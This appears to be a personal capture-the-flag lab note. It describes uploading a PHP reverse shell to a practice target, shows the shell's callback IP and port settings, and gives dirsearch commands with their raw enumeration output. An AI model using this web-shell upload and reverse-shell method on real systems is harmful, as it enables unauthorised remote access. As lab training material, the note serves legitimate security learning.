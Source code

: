 ## post-file upload page

(after getting stuck)

Turns out I'm supposed to just upload a PHP reverse shell, i.e. at `/usr/share/webshells/php/php-reverse-shell.php`, and use `dirsearch` to search for it, then connect using `nc` and "upgrade the shell", whatever that means.

Then will try on my own from there.

The shell is in `payload/`. Important options:

```php
$ip = '10.10.14.245';
$port = 1234;
```

Download dirsearch and run it:

    cd ~/Github; git clone https://github.com/maurosoria/dirsearch
    python3 dirsearch.py -e php,html,js -u http://10.10.10.28

Output:

```
┌─[vagrant@vagrant-virtualbox]─[~/Github/dirsearch]
└──╼ $python3 dirsearch.py -e php,html,js -u http://10.10.10.28
/home/vagrant/Github/dirsearch/thirdparty/requests/__init__.py:91: RequestsDependencyWarning: urllib3 (1.26.2) or chardet (4.0.0) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({}) doesn't match a supported "

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: php, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 9852

Error Log: /home/vagrant/Github/dirsearch/logs/errors-21-03-12_18-46-35.log

Target: http://10.10.10.28/

Output File: /home/vagrant/Github/dirsearch/reports/10.10.10.28/_21-03-12_18-46-35.txt

[18:46:35] Starting: 
[18:46:35] 301 -  307B  - /js  ->  http://10.10.10.28/js/
[18:46:37] 403 -  276B  - /.ht_wsr.txt
[18:46:37] 403 -  276B  - /.htaccess.bak1
[18:46:37] 403 -  276B  - /.htaccess.save
[18:46:37] 403 -  276B  - /.htaccess.sample
[18:46:37] 403 -  276B  - /.htaccess.orig
[18:46:37] 403 -  276B  - /.htaccessBAK
[18:46:37] 403 -  276B  - /.htaccessOLD
[18:46:37] 403 -  276B  - /.htaccessOLD2
[18:46:37] 403 -  276B  - /.htaccess_sc
[18:46:37] 403 -  276B  - /.htaccess_extra
[18:46:37] 403 -  276B  - /.htm
[18:46:37] 403 -  276B  - /.htaccess_orig
[18:46:37] 403 -  276B  - /.html
[18:46:37] 403 -  276B  - /.httr-oauth
[18:46:37] 403 -  276B  - /.htpasswds
[18:46:37] 403 -  276B  - /.htpasswd_test
[18:46:37] 403 -  276B  - /.php
[18:46:43] 301 -  308B  - /css  ->  http://10.10.10.28/css/
[18:46:44] 301 -  310B  - /fonts  ->  http://10.10.10.28/fonts/
[18:46:44] 301 -  311B  - /images  ->  http://10.10.10.28/images/
[18:46:44] 403 -  276B  - /images/
[18:46:44] 200 -   11KB - /index.php
[18:46:44] 200 -   11KB - /index.php/login/
```